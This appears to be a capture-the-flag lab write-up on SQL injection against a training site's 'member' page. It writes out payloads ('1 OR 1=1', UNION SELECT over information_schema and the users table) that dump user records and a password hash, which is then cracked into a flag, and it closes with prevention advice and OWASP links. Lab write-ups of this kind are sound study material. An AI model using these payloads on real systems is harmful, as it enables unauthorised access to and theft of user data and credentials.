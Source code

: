 # Vulnerability
SQL injection allow you to access and manipulate all your datas.

# Identification
During the request, we have got database error.

# Resolve

Go to {url}/?page=member
Fill the form with http://{url}/?page=member
1 OR 1=1 and submit (page=member&id=1+OR+1%3D1&Submit=Submit#)
It will show all users and we are sure about the vulnerability

Now, we will get all columns and tables from DB
1 UNION SELECT table_name, column_name FROM information_schema.columns

Table name:

- users

Columns name:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

With this cmd, we will identify the id wanted
1 UNION SELECT 1, user_id FROM users

We will parse all columns and find what we need

5 UNION SELECT concat(user_id, first_name, last_name, town, country, planet), concat(Commentaire, countersign) user_id FROM users where user_id = 5

Commentaire: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
countersign: 5ff9d0165b4f92b14994e5c685cdce28

countersign->md5->lower->sha256->flag

# Prevent

- Use of Prepared Statements (with Parameterized Queries)
- Use of Properly Constructed Stored Procedures
- Allow-list Input Validation
- STRONGLY DISCOURAGED: Escaping All User Supplied Input

# Resources

https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection
https://www.dcode.fr/md5-hash
https://www.dcode.fr/sha256-hash

